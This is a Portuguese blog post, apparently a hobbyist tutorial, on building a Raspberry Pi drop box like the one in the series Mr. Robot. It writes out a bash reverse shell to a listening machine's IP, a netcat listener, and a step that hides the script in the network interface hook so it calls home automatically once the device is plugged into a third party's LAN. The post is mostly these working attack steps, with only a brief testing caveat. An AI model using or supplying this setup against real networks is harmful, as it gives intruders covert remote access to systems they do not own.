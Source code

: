 ```yaml
---
layout: post
title: Mr. robot's raspberry Pi
description: "Como criar um raspberry Pi semelhante ao utilizado por Elliot na primeira temporada de Mr Robot"
tags: [Mr_robot, raspberry, hack, reverse_shell]
categories: [raspberry, hack]
author: lgribeiro
published: true
---
```


Algum tempo atrás estava dando uma olhada nos posts da série Mr Robot do [null-byte](http://null-byte.wonderhowto.com/how-to/mr-robot-hacks/) e um artigo em especial me chamou a atenção.

A publicação sobre como criar um raspberry para hacking não retrata fielmente as condições encontradas por Elliot no episódio eps1.3\_\_da3m0ns.mp4. Portanto, optei por adaptar um pouco esse tutorial para que ele se torne mais parecido com o conteúdo apresentado na televisão. De início, os passos serão bem semelhantes aos apresentados pelo null-byte mas no final, teremos um algo a mais.

1.Baixar o [Kali linux para ARM](https://www.offensive-security.com/kali-linux-arm-images/). Escolha aquela que se adequa ao hardware que estiver utilizando. Iremos utilizar o Kali pois é uma distribuição linux focada em segurança, e por conta disso, fornecerá diversas ferramentas que poderão ser utilizadas em missões futuras.

<figure class="center">
		<img src="{{ site.url }}/images/offensive-sec.png" alt="">
		<figcaption>offensive security</figcaption>
</figure>


2.Feito isso, precisamos criar um script que funcionará como nosso nosso shell reverso. Para tal, é recomendável utilizar o [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) da pentest Monkey. Utilizaremos o shell reverso abaixo.

{% highlight bash%}
{% raw %}
bash -i >& /dev/tcp/<ip da maquina que está escutando>/8080 0>&1
{% endraw %}
{% endhighlight %}

Colocamos então o código acima em um arquivo (chamaremos ele de reverse) e concedemos a ele permissão de execução da seguinte maneira:

{% highlight bash%}
{% raw %}
chmod +x reverse
{% endraw %}
{% endhighlight %}

Obs: Vale ressaltar que não devemos colocar o script com extensão .sh pois o diretório em que ele será armazenado não executa arquivos com esse formato.

3.Agora, é necessário preparar uma máquina capaz de receber essa shell fornecida pelo raspberry. Para isso, podemos utilizar o canivete suiço de conexões TCP, o netcat. Basta colocar o netcat para escutar na porta em que a shell será fornecida da seguinte forma:

{% highlight bash %}
{% raw %}
 nc -lvp 8080
{% endraw %}
{% endhighlight %}

4.Com a estrutura pronta, precisamos organizar tudo o que temos para que seja possível acessar o raspberry dentro de uma LAN de terceiros. A partir desse ponto nos desviamos um pouco do artigo que utilizamos como base.
No lugar de teclado, tela e demais periféricos, colocaremos nosso script no diretório /etc/network/interfaces/ifup. 

{% highlight bash %}
{% raw %}
mv reverse /etc/network/interfaces/ifup
{% endraw %}
{% endhighlight %}

Dessa forma, assim que a interface do nosso dispositivo começar a funcionar ele executará o script, que fornecerá a shell para a máquina de fora da LAN.

![elliot wins]({{ site.url }}/images/mr-robot-success.1280x600.jpg)

Ressalvas:

* Para testar, utilize duas máquinas na mesma LAN, ou a máquina que escuta deverá ter um IP real ou ter um portfoward settado no roteador para que as conexões recebidas em detarmidana porta sejam redirecionadas para a máquina que está escutando.

Quaisquer dúvidas, entre em contato via email: lgribeiro at gris.dcc.ufrj.br


